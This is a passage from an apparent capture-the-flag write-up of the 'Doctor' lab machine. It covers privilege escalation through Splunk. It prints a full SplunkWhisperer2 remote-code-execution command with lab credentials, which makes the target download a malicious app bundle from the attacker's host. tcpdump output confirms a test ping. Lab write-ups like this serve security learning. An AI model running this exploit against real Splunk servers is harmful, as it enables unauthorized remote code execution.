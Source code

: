     
    
    shaun@doctor:~$ cat user.txt
    4300eefd************************
    

## Shell as root

### Enumeration

Remembering the Splunk privesc from above, I went back to the Splunk page and
tried shaun’s creds in the HTTP basic auth, and it worked. There’s a lot more
functions now:

[
![image-20201101061303774](https://0xdfimages.gitlab.io/img/image-20201101061303774.png)
](https://0xdfimages.gitlab.io/img/image-20201101061303774.png)

[_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20201101061303774.png)

### POC

I ran `git clone https://github.com/cnotin/SplunkWhisperer2.git` to get a copy
of the repo locally, and then decided to try the exploit with a simple `ping`
to test it. I started `tcpdump`, and then ran the exploit:

    
    
    root@kali:/opt/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.6"
    Running in remote mode (Remote Code Execution)
    [.] Authenticating...
    [+] Authenticated
    [.] Creating malicious app bundle...
    [+] Created malicious app bundle in: /tmp/tmpwvtxfq84.tar
    [+] Started HTTP server for remote mode
    [.] Installing app from: http://10.10.14.6:8181/
    10.10.10.209 - - [01/Nov/2020 06:15:40] "GET / HTTP/1.1" 200 -
    [+] App installed, your code should be running now!
    
    Press RETURN to cleanup
    

At `tcpdump`, I got pinged:

    
    
    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    06:15:40.494671 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    06:15:40.494729 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 1, seq 1, length 64
    

I hit enter in the exploit window and it cleaned up.

### Shell
